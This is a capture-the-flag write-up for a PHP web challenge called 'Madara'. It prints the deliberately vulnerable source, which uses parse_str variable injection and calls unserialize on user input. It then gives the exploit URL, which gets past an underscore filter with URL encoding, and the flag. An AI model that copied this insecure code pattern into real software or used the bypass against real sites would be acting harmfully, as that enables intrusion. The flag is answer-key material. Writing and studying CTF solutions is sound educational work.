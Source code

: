 # Web / Madara

## Challenge
This is an easy task for such a good hacker, go get me the flag.

## Inputs
- We can spawn a Web page instance at http://instances.challenge-ecw.fr:39165

## Solution
Here's the php code that is running:

```php
<?php
//Config
ini_set('display_errors', 0);
ini_set('display_startup_errors', 0);
error_reporting(0);
//Some Jutsu :D
highlight_file(__FILE__);
include 'secret.php' ;
$_=['_'=>'YogoshaBlaBlaBla','__'=>'Grr'];
foreach($_ as $k=>$v){
    ${'_'.$k}=$v ;
    }
$query=$_SERVER["QUERY_STRING"];
parse_str($query);
if ((substr_count($query,'_')>=4)||(substr_count($query,'.')>0)){
    die('You have used too much _');
}
if(@$__==='Madara'){
    if(unserialize(@$___)['o']['k']==='imBored'){
        echo $flag ;}
    else die("No No");
}
else die("it's too EZ go go");
?>
```

So we need to pass two variables `__` and `___` in the query, satisfying:
- $__ = 'Madara'
- unserialize($___)['o']['k'] = 'imBored'
- Do not pass more than 3 `_`

The first and last requirements are easy. We just pass this query string with `URL-encoded` underscores (%5f):
> http://instances.challenge-ecw.fr:39165/?%5f%5f=Madara

For the second requirement, we need to serialize a dictionary (inside another dictionary). Let's do that:

```console
$ php -a
Interactive shell

php > $a= array( 'k' => 'imBored' );
php > $b= array( 'o' => $a);
php > print($b['o']['k']);
imBored
php > $s = serialize($b);
php > print($s);
a:1:{s:1:"o";a:1:{s:1:"k";s:7:"imBored";}}
```

We just have to pass that serialized string to variable `___` as follow:
> http://instances.challenge-ecw.fr:39165/?%5f%5f=Madara&___=a:1:{s:1:%22o%22;a:1:{s:1:%22k%22;s:7:%22imBored%22;}}

That way, we pass the checks and get the flag!

## Flag
ECW{C3u7pdBCAfsmbp8eq5T2}
